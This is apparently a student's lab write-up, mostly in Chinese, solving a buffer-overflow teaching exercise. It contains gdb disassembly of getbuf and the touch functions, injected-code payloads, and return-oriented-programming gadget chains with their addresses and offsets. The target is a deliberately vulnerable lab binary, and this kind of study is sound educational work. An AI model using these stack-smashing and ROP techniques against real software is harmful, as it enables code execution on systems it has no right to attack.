


```py
(gdb) disas test
Dump of assembler code for function test:
   0x0000000000401c73 <+0>:	sub    $0x8,%rsp
   0x0000000000401c77 <+4>:	mov    $0x0,%eax
   0x0000000000401c7c <+9>:	callq  0x401acb <getbuf>
   0x0000000000401c81 <+14>:	mov    %eax,%edx
   0x0000000000401c83 <+16>:	lea    0x26e6(%rip),%rsi        # 0x404370
   0x0000000000401c8a <+23>:	mov    $0x1,%edi
   0x0000000000401c8f <+28>:	mov    $0x0,%eax
   0x0000000000401c94 <+33>:	callq  0x401170 <__printf_chk@plt>
   0x0000000000401c99 <+38>:	add    $0x8,%rsp
   0x0000000000401c9d <+42>:	retq   
End of assembler dump.
```

```py
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x0000000000401acb <+0>:	sub    $0x28,%rsp
   0x0000000000401acf <+4>:	mov    %rsp,%rdi
   0x0000000000401ad2 <+7>:	callq  0x401d46 <Gets>
   0x0000000000401ad7 <+12>:	mov    $0x1,%eax
   0x0000000000401adc <+17>:	add    $0x28,%rsp
   0x0000000000401ae0 <+21>:	retq   
End of assembler dump.
```

```py
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x0000000000401ae1 <+0>:	sub    $0x8,%rsp
```

```py
Dump of assembler code for function touch2:
   0x0000000000401b0f <+0>:	sub    $0x8,%rsp
```
  
```py 
0000000000000000 <.text>:
   0:	48 c7 c7 0e 66 21 5d 	mov    $0x5d21660e,%rdi
   7:	68 0f 1b 40 00       	pushq  $0x401b0f
   c:	c3                   	retq   
```

~~~
5 → '5' (ASCII: 0x35)
d → 'd' (ASCII: 0x64)  
2 → '2' (ASCII: 0x32)
1 → '1' (ASCII: 0x31)
6 → '6' (ASCII: 0x36)
6 → '6' (ASCII: 0x36)
0 → '0' (ASCII: 0x30)
e → 'e' (ASCII: 0x65)
~~~
```py
(gdb) disas touch3
Dump of assembler code for function touch3:
   0x0000000000401c01 <+0>:	push   %rbx

```

```py
l3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 e0 92 60 55 	mov    $0x556092e0,%rdi
   7:	68 01 1c 40 00       	pushq  $0x401c01
   c:	c3                   	retq   

```
rsp+0x48 
0x55609298+48-》0x30 = c8
```py
movq $0x556092c8,%rdi
pushq $0x401c01
ret
```
## part4
```cpp
58: pop %rax  ret
0000000000401d5e <getval_401>: //这个不行，后面会破坏
  401d5e:	b8 58 89 e0 90       	mov    $0x90e08958,%eax
  401d63:	c3                   	retq 
0000000000401cd3 <getval_209>:
  401cd3:	b8 58 90 90 c3       	mov    $0xc3909058,%eax
  401cd8:	c3                   	retq   
0x401cd4

48 89 c7: move rax rdi ret
0000000000401ca4 <addval_202>:
  401ca4:	8d 87 4c 48 89 c7    	lea    -0x3876b7b4(%rdi),%eax
  401caa:	c3                   	retq   
0x401ca7
```
首先，要做的是把 cookie 赋值给参数寄存器%rdi，考虑将 cookie 放在栈中，再用指令：  
pop %rdi
ret  
但是后来发现在farm中找不到这条指令的gadget，经过多次尝试，只好用其他寄存器进行中转，考虑用两个gadget:  
getbuf执行ret，从栈中弹出返回地址，跳转到我们gadget01gadget01执行，将cookie弹出，赋值给%rax.    
然后执行ret，继续弹出返回地址，跳转到gadget2gadget2执行，将cookie值成功赋值给参数寄存器%rdi，然后执行ret，继续弹出返回地址，跳转到touch2

其中 90 表示“空”，可以忽略
~~~
40个00
0x401cd4
cookie:0x5d21660e
0x401ca7
touch2：0x401b0f
~~~

## part5
思路：
~~~
40个无用字节
读出偏移量到寄存器1
弹出栈里面的偏移量到寄存器2
偏移量 = cookie 与第二行指令差的字节
寄存器1+寄存器2
结果存进rdi
cookie
~~~
提示：
```c
/* Add two arguments */
long add_xy(long x, long y)
{
    return x+y;
}
```
```cpp 
//48 89 e0~7
//实现 mov rsp rax
0000000000401ce4 <addval_496>:
  401ce4:	8d 87 48 89 e0 90    	lea    -0x6f1f76b8(%rdi),%eax
  401cea:	c3                   	retq 
  
0000000000401d93 <setval_480>:
  401d93:	c7 07 f4 48 89 e0    	movl   $0xe08948f4,(%rdi)
  401d99:	c3                   	retq   

lea (%rdi,%rsi,1),%rax //实现rax = rsp+偏移量
0000000000401cdf <add_xy>:
  401cdf:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  401ce3:	c3                   	retq   
// 实现 popq rax
0000000000401cd3 <getval_209>:
  401cd3:	b8 58 90 90 c3       	mov    $0xc3909058,%eax
  401cd8:	c3                   	retq   

// 48 89 c 实现movq rax ->  rdi
0000000000401ca4 <addval_202>:
  401ca4:	8d 87 4c 48 89 c7    	lea    -0x3876b7b4(%rdi),%eax
  401caa:	c3                   	retq   
0000000000401ccd <getval_275>:
  401ccd:	b8 75 48 89 c7       	mov    $0xc7894875,%eax
  401cd2:	c3                   	retq   

//48 89 f8~f 实现movq rdi -> 无
//89 c0~7 实现movl eax -> %edi  /  %ecx:89 c1
0000000000401ca4 <addval_202>:
  401ca4:	8d 87 4c 48 89 c7    	lea    -0x3876b7b4(%rdi),%eax
  401caa:	c3                   	retq   
0000000000401cb2 <setval_321>:
  401cb2:	c7 07 68 89 c7 90    	movl   $0x90c78968,(%rdi)
  401cb8:	c3                   	retq   
0000000000401d0d <setval_315>:
  401d0d:	c7 07 89 c1 30 c9    	movl   $0xc930c189,(%rdi)
  401d13:	c3                   	retq   
0000000000401d22 <addval_488>: //38 c9 是无用串，可以
  401d22:	8d 87 89 c1 38 c9    	lea    -0x36c73e77(%rdi),%eax
  401d28:	c3                   	retq   
0000000000401da8 <setval_295>:
  401da8:	c7 07 89 c1 90 c3    	movl   $0xc390c189,(%rdi)
  401dae:	c3                   	retq   

//89 d6 movl %edx %esi    84 d2:testb R, R
0000000000401d51 <getval_348>:
  401d51:	b8 89 d6 84 d2       	mov    $0xd284d689,%eax
  401d56:	c3                   	retq   

//89 ca movl %ecx %edx   20 d2 :andb R, R
0000000000401cff <setval_189>:
  401cff:	c7 07 89 ca 20 d2    	movl   $0xd220ca89,(%rdi)
  401d05:	c3                   	retq   

```
```cpp
0x401d96 movq %rsp %rax
0x401ca7  movq %rax %rdi
0x401cd4 popl %rax
0x48  //偏移量 9行
// mov %eax esi 没有找到89 c6,找个中转
0x401d24  movl %eax %ecx
0x401d01  movl %ecx %edx
0x401d52   movl %edx %esi
0x401cdf lea    (%rdi,%rsi,1),%rax
0x401ca7 movq %rax %rdi
touch3: 0x401c01
cookie: 0x5d21660e
```
要注意，getbuf执行ret后相当于进行了一次pop操作，test的栈顶指针%rsp=%rsp+0x8，所以cookie相对于此时栈顶指针的偏移量是0x48而不是0x50